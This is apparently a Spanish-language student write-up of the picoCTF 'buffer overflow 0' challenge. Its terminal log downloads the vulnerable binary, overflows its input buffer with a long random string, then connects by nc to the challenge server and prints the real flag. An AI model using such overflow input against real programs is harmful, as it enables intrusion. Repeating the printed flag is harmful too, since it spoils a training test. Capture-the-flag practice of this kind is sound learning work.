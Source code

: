 ## Descripción 
```
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c).Connect using:`nc saturn.picoctf.net 59066`
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ wget https://artifacts.picoctf.net/c/173/vuln
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ wget https://artifacts.picoctf.net/c/173/vuln.c
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ chmod +x vuln
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ /.vuln
-bash: /.vuln: No such file or directory
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ nano vuln.c
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ echo 'flag{dummieflag}' > flag.txt
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ ./vuln
Input: jjaaflja
The program will exit now
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ ./vuln
Input: jaljflkadfjaldjfñlkdajflñkjdfñljasdfjlsdjflñsdajflñjdslfjdsalfjdsljfalñdjflñajfldsajflñjafljdsfljsdlfjsdljflajfldsjfldjfldasfjldsjfldsjflkajfljdslfjdslfafdlajflajfldjfldajfldasjfldsajflasjfldasjflasjfljsfljdsalfjadlsjfaljfdljfldasjfldsajfldsajflajfasljfldsjfldasjflad
flag{dummieflag}

porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/bo0$ nc saturn.picoctf.net 59066
Input: jaljflkadfjaldjfñlkdajflñkjdfñljasdfjlsdjflñsdajflñjdslfjdsalfjdsljfalñdjflñajfldsajflñjafljdsfljsdlfjsdljflajfldsjfldjfldasfjldsjfldsjflkajfljdslfjdslfafdlajflajfldjfldajfldasjfldsajflasjfldasjflasjfljsfljdsalfjadlsjfaljfdljfldasjfldsajfldsajflajfasljfldsjfldasjflad
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

flag:  picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales

[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias